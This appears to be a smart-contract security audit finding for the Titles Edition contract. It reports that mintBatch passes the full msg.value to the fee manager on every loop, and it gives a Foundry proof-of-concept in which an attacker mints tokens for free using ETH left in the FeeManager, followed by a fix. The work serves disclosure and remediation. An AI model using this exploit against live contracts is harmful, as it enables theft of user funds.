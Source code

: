 Wonderful Tin Cuckoo

medium

# `Edition::mintBatch()-0x1f7fdffa` design error, batch minting tokens does not work as expected

## Summary
The wrong msg.value value is used in the for loop to make a call. When the method calls `FEE_MANAGER.collectMintFee()` for the first time, all ETH will be sent to `FEE_MANAGER`, resulting in a revert without ETH in the subsequent loop.
`Edition::mintBatch()-0x1f7fdffa` does not check and process user input, `_refundExcess()` is invalid, and an attacker can tail the transaction and consume the ETH in the contract to mint tokens for free
## Vulnerability Detail
1. The wrong msg.value value is used in the for loop to make a call. When the method calls `FEE_MANAGER.collectMintFee()` for the first time, all ETH will be sent to `FEE_MANAGER`, resulting in a revert without ETH in the subsequent loop.
2. The user calls `Edition::mintBatch()-0x1f7fdffa` and sends ETH. When the `Edition::mintBatch()-0x1f7fdffa` code is executed to `FEE_MANAGER.collectMintFee()`, the corresponding value in the `Edition` contract will be ETH is sent to the `FEE_MANAGER` contract. At this time, `address(Edition).balance == 0`. When the program executes to `_refundExcess();`, since the balance in the contract is 0, the excess ETH sent by the caller will not be refunded, and the excess ETH will remain in In `FeeManager`,  at this point, the attacker can consume the ETH in the contract to mint tokens.
```js
    function mintBatch(
        address to_,
        uint256[] calldata tokenIds_,
        uint256[] calldata amounts_,
        bytes calldata data_
    ) external payable {
        for (uint256 i = 0; i < tokenIds_.length; i++) {
            Work storage work = works[tokenIds_[i]];


            // wake-disable-next-line reentrancy
@>            FEE_MANAGER.collectMintFee{value: msg.value}(
                this, tokenIds_[i], amounts_[i], msg.sender, address(0), work.strategy
            );


            _checkTime(work.opensAt, work.closesAt);
            _updateSupply(work, amounts_[i]);
        }


        _batchMint(to_, tokenIds_, amounts_, data_);
        _refundExcess();
    }
```

### Poc
Please add to `Edition.t.sol` and execute
```js
    function test_mintBatch_0x1f7fdffa_ErrorPoc() public {
        edition.publish(
            address(1), // creator
            10, // maxSupply
            0, // opensAt
            0, // closesAt
            new Node[](0), // attributions
            Strategy({
                asset: address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE),
                mintFee: 0.01 ether,
                revshareBps: 2500, // 25%
                royaltyBps: 250 // 2.5%
            }),
            Metadata({label: "Best Work Ever", uri: "ipfs.io/best-work-ever", data: new bytes(0)})
        );

        // Normally done by the TitlesCore, but we're testing in isolation
        feeManager.createRoute(edition, 2, new Target[](0), address(0));
        // init user
        address user = makeAddr("user");
        deal(user, 0.1 ether);
        // user mints
        uint256[] memory tokenIds = new uint256[](2);
        uint256[] memory amounts = new uint256[](2);
        tokenIds[0] = 1;
        tokenIds[1] = 2;
        amounts[0] = 1;
        amounts[1] = 4;
        vm.startPrank(user);
        vm.expectRevert();
        edition.mintBatch{value: 0.1 ether}(user, tokenIds, amounts, new bytes(0));
        vm.stopPrank();
    }// [PASS] test_mintBatch_0x1f7fdffa_ErrorPoc() (gas: 371356)



    function test_mintBatch_0x1f7fdffa_Poc() public {
        // init user
        address user = makeAddr("user");
        deal(user, 0.1 ether);
        // user mints
        uint256[] memory tokenIds = new uint256[](1);
        uint256[] memory amounts = new uint256[](1);
        tokenIds[0] = 1;
        amounts[0] = 1;
        vm.prank(user);
        edition.mintBatch{value: 0.1 ether}(user, tokenIds, amounts, new bytes(0));
        assertEq(edition.balanceOf(user, tokenIds[0]), amounts[0]);
        assertEq(edition.totalSupply(tokenIds[0]), amounts[0]);
        assertEq(address(feeManager).balance, 0.1 ether - 0.0106 ether * amounts[0]);
        assertEq(address(user).balance, 0);
        assertEq(address(0xc0ffee).balance, 0.0006 ether * amounts[0]);

        // init attacker
        address attacker = makeAddr("attacker");
        // attacker doesn't have ETH
        assertEq(attacker.balance, 0);
        uint256[] memory attackerAmounts = new uint256[](1);
        attackerAmounts[0] = address(feeManager).balance / 0.0106 ether;
        // attacker calls mint()
        vm.prank(attacker);
        edition.mintBatch{value: 0}(attacker, tokenIds, attackerAmounts, new bytes(0));
        assertEq(edition.balanceOf(attacker, 1), attackerAmounts[0]);
        assertEq(edition.balanceOf(user, 1), amounts[0]);
        assertEq(edition.balanceOf(attacker, 1), attackerAmounts[0]);
        assertEq(edition.totalSupply(1), amounts[0] + attackerAmounts[0]);
        assertEq(address(user).balance, 0);
        assertEq(address(attacker).balance, 0);
        assertEq(address(0xc0ffee).balance, 0.0006 ether * (amounts[0] + attackerAmounts[0]));
        console.log("Attacker free mint amount:", attackerAmounts[0]);
    }
    // [PASS] test_mintBatch_0x1f7fdffa_Poc() (gas: 256465)
    // Logs:
    //     Attacker free mint amount: 8
```
## Impact
1. The wrong msg.value value is used in the for loop to make a call. When the method calls `FEE_MANAGER.collectMintFee()` for the first time, all ETH will be sent to `FEE_MANAGER`, resulting in a revert without ETH in the subsequent loop.
2. The user calls `Edition::mintBatch()-0x1f7fdffa` and sends ETH. When the `Edition::mintBatch()-0x1f7fdffa` code is executed to `FEE_MANAGER.collectMintFee()`, the corresponding value in the `Edition` contract will be ETH is sent to the `FEE_MANAGER` contract. At this time, `address(Edition).balance == 0`. When the program executes to `_refundExcess();`, since the balance in the contract is 0, the excess ETH sent by the caller will not be refunded, and the excess ETH will remain in In `FeeManager`,  at this point, the attacker can consume the ETH in the contract to mint tokens.
## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/editions/Edition.sol#L277-L297
## Tool used

Manual Review

## Recommendation
Verify msg.value and send the corresponding amount
```diff
    function mintBatch(
        address to_,
        uint256[] calldata tokenIds_,
        uint256[] calldata amounts_,
        bytes calldata data_
    ) external payable {
+       uint256 remainingValue = msg.value;        
        for (uint256 i = 0; i < tokenIds_.length; i++) {
            Work storage work = works[tokenIds_[i]];


            // wake-disable-next-line reentrancy
+            uint256 sendValue = FEE_MANAGER.getMintFee(work.strategy, amounts_[i]).amount;
+            if (remainingValue < sendValue) revert();
+            remainingValue -= sendValue;
+            FEE_MANAGER.collectMintFee{value: sendValue}(            
-            FEE_MANAGER.collectMintFee{value: msg.value}(
                this, tokenIds_[i], amounts_[i], msg.sender, address(0), work.strategy
            );


            _checkTime(work.opensAt, work.closesAt);
            _updateSupply(work, amounts_[i]);
        }


        _batchMint(to_, tokenIds_, amounts_, data_);
        _refundExcess();
    }
```
